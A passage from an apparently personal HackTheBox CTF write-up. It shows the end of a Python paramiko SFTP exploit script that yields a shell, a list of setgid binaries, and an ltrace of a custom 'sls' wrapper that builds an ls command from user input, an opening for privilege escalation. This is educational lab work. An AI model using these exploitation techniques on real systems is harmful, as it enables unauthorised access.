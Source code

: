 ```python
                f.seek(toseek, f.SEEK_SET)
                f.write(towrite)
            p.failure("Code execution may have failed! Server may not be vulnerable!")
    except paramiko.ssh_exception.SSHException:
        p.success("SSH Connection was forcefully closed!  Check your payload!")

finally:
    sftp.close()
    transport.close()
```
We run this script, set up a listener and are returned a shell as ftpuser. 

 If you're interested in running shellcode as opposed to system binaries to make the exploit more portable, the ret2mprotect rop-chain can be utilised just as easily.  This is left as an exercise for the reader, and an overview of this process can be found in my [Calamity writeup](https://reboare.github.io/hackthebox/calamity.html).  

Decoder Privilege Escalation
------------------
![Never stop not stopping!](https://www.theparisreview.org/blog/wp-content/uploads/2014/01/the-inferno-canto-13.jpg)
We've reached the next level! 

 First thing as always on a new host is to either run an enumeration script or use a guide such as g0tm1lk's.  Within the GUID files we see `/usr/bin/sls` is a guid application which escalates us to the decoder group.  Maybe we can abuse this.
``` 
GUID files: 
-rwxr-sr-x 1 root shadow 35600 Mar 16  2016 /sbin/unix_chkpwd 
-rwxr-sr-x 1 root shadow 35632 Mar 16  2016 /sbin/pam_extrausers_chkpwd 
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at 
-rwxr-sr-x 1 root mlocate 39520 Nov 18  2014 /usr/bin/mlocate 
-rwxr-sr-x 1 root shadow 62336 May 17  2017 /usr/bin/chage 
-rwxr-sr-x 1 root decoder 9016 Feb 18  2016 /usr/bin/sls 
-rwxr-sr-x 1 root tty 27368 Apr 13  2016 /usr/bin/wall 
-rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen 
-rwxr-sr-x 1 root shadow 22768 May 17  2017 /usr/bin/expiry 
-rwxr-sr-x 1 root ssh 358624 Aug 11  2016 /usr/bin/ssh-agent 
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write 
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab 
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter 
``` 
This actually defeated my CTF instincts quite well and I was quite impressed.  The big difference between a CTF and a real-world system is that in a CTF the dates of applications will hint during enumeration as to where to investigate.  In real-world devices we don't have this luxury.  As you can see `sls` has it's date adjusted to early 2016, so my hat goes off to the box creators for this one.

If you run it you'll see it's at first glance a wrapper around `ls`, returning a simple directory listing. 

Here I've downloaded the sls application to my home pc, and run ltrace on it to view all library calls when inputting a directory.  The ltrace utility is incredibly useful in doing cursory debugging, as it allows you to view any calls to shared libraries.  
```bash
root@kali:/# ltrace /root/Downloads/sls / 
__libc_start_main(0x400766, 2, 0x7fffedda25e8, 0x400980 <unfinished ...> 
malloc(8)                                                                                                                         = 0xf6e010 
strlen("/bin/ls")                                                                                                                 = 7 
strlen("/")                                                                                                                       = 1 
realloc(0xf6e010, 10)                                                                                                             = 0xf6e010 
strcat("/bin/ls ", "/")                                                                                                           = "/bin/ls /" 
```